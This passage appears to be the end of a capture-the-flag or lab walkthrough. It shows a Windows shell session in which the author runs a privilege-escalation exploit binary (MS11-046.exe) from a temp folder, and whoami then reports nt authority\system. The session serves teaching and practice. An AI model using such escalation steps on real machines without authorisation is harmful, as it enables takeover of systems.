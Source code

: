 Now i'll attempt to run the binary again 

```
C:\windows\temp\haxor>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\windows\temp\haxor

20/01/2023  03:54 ��    <DIR>          .
20/01/2023  03:54 ��    <DIR>          ..
20/01/2023  03:54 ��           112.815 MS11-046.exe
20/01/2023  03:23 ��            73.802 shell.exe
               2 File(s)        186.617 bytes
               2 Dir(s)   4.697.157.632 bytes free

C:\windows\temp\haxor>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```

It worked without any issue cool

And we're done




<br> <br>
[Back To Home](../../index.md)
<br>




